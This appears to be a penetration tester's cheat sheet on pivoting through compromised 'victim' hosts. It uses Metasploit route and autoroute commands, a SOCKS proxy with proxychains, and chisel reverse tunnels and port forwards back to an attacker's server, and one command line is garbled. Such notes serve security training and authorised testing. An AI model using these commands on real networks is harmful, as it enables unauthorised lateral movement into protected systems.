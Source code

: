 ## Pivot
In this case victim 1, in  subnet 2, is initialy used to contact victim 2, in subnet 2.
But after the reverse shell is ran, the communication is made between the attacker and victim 2.

**Method 1**

	msf > route add [ip] [net mask] [session]
	msf > route add 10.10.10.0 255.255.255.0 2
	msf > route print
	msf > route flush

**Method 2**

	meterpreter > run autoroute -s 10.10.10.0/24
	meterpreter > run autoroute -p #show routing table

**Method 3**

	msf > use post/windows/manage/autoroute
	msf > set session [session]
	msf > set subnet [subnet] #subnet is the subnet that we wish to access
	msf > run
	msf > route flush
## Use routing table to run external tools
	meterpreter > use auxiliary/server/socks_proxy
	add socks4 $ip 1080 to proxychains4.conf
	proxychains [command]

## Pivot if there's no internet access for victim 2
In this case victim 1, in subnet 1, is used as a proxy to access subnet 2 so we can contact, through victim 1, victim 2.

	msf > use post/windows/manage/autoroute
	msf > set session [session] 
	set sumsf > bnet [subnet1]
	msf > run
	msf > use post/windows/manage/autoroute
	msf > set session [session]
	msf > set subnet [subnet2]
	msf > run
	exploit using LHOST with the IP of victim 1 

## Pivot with VPNPivot
	https://github.com/0x36/VPNPivot

## Pivot with chisel

### Method 1
#### Attacker
 
	chisel server --socks5 --reverse
	
#### Victim
	chisel client --fingerprint [fingerprint] [chisel server ip]:[chisel server port] R:socks

#### Attacker
	sudo nano /etc/proxychains4.conf
		add socks5	127.0.0.1 [chisel server port]

### Method 2

#### Attacker
	chisel server --reverse

#### Victim

	chisel client --fingerprint [fingerprint] [chisel server ip]:[chisel server port] R:[attack port to forward to]:[victim ip]:[victim port]


